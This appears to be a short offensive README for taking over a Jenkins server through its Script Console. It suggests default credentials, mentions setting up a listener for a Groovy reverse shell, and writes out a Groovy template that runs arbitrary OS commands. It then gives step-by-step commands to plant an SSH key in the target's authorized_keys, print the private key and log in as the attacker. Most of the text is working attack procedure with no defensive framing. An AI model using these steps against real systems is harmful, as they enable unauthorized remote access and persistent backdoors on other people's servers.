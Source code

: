 ## Requirements: Access to a jenkins dashboard and script console

## Steps:

#### 1) Authenticate to the Jenkins instance. Try common credentials like: (jenkins:jenkins)

#### 2) Dashboard

#### 3) Manage Jenkins

#### 4) Script Console

#### 5) Setup listener

#### 6) Run a groovy reverse shell script

# Alternate Method: Create SSH Key-pair for SSH Access (Requires SSH port being open, and use this in case the reverse shell doesn't work)

## Command running template:

### def proc = "id".execute() (Replace the "id" value with any OS Command)

### def b = new StringBuffer()

### proc.consumeProcessErrorStream(b)

### println proc.text

### println b.toString()

## Command Steps:

#### 1) pwd (Show working directory)

#### 2) env (Verify the home location of our user)

#### 3) mkdir .ssh (Build an .ssh directory)

#### 4) ssh-keygen -t rsa -b 4096 -N \"\" -f .ssh/id_rsa (Create SSH keypair for our user. THE PASSPHRASE IS: "")

#### 5) cp .ssh/id_rsa.pub .ssh/authorized_keys (Copy the public SSH key to create the "authorized_keys" file)

#### 6) cat .ssh/id_rsa (Print the private key to copy locally)

#### 7) Attacker: chmod 600 id_rsa (Give the correct permissions to use the key)

#### 8) Attacker: ssh -i id_rsa USER@IP (SSH into the target user using the key)
